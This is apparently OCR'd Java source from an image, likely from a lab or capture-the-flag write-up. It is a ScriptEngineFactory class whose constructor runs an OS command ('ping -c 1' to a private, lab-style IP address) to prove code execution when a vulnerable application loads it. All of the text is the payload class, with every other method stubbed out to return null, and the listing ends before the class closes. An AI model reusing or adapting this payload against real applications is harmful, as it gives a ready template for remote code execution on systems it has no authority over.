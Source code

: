 ```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("ping -c 1 10.10.14.25");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }
```
